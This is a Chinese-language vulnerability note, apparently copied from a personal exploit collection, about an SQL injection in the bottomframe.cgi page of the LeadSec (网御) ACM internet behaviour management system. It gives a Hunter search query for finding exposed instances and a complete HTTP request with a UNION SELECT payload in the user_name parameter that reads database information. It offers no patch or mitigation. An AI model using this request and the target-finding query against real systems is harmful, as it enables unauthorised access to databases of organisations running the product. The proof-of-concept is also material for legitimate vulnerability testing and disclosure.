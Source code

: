 # 网御 ACM 上网行为管理系统bottomframe.cgi SQL 注入漏洞

# 一、漏洞简介
网御上网行为管理系统具备一体化网络接入、认证、管控、优化、审计、运营等功能,是新一代高性能的上网行为管理产品。面向政府、军工、金融、教育、企业等多行业不同客户网络业务场景，简化管理，节约客户成本，提供业务效率和价值。网御ACM上网行为管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

# 二、影响版本
+ 网御上网行为管理系统

# 三、资产测绘
+ hunter：`app.name="LeadSec 网御星云 ACM"`

![1692091516996-e14a3fea-afe4-498a-8cb0-cb8bf8eb6ad2.png](./img/smjw_DZ0Z3nT853F/1692091516996-e14a3fea-afe4-498a-8cb0-cb8bf8eb6ad2-429151.png)

+ 登录页面

![1692091551867-d771bb3c-8490-4b04-b8bf-11142bcb954e.png](./img/smjw_DZ0Z3nT853F/1692091551867-d771bb3c-8490-4b04-b8bf-11142bcb954e-939492.png)

# 四、漏洞复现
```plain
GET /bottomframe.cgi?user_name=%27))%20union%20select%20user()%23 HTTP/1.1
Host: xx.xx.xx.xx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
```

![1692091602115-e4c1e46d-7de4-4e4b-89b9-e77626b14efe.png](./img/smjw_DZ0Z3nT853F/1692091602115-e4c1e46d-7de4-4e4b-89b9-e77626b14efe-446439.png)



> 更新: 2024-02-29 23:57:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/us2xh5hyekelzowk>